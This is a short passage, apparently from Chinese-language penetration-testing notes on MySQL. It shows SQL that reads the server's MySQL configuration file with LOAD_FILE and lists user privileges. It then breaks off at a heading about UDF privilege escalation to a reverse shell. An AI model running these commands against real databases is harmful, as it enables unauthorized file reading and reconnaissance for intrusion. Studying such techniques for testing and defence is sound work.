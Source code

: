 ![img](assets/OqHDJ9j.png)

![img](assets/DhJhNRf.png)

也可以去读取mysql的配置文件

```
select LOAD_FILE('/etc/mysql/mysql.conf.d/mysqld.cnf');
```

看用户权限

```
select * from information_schema.user_privileges;
```



#### 利用udf提权反弹shell
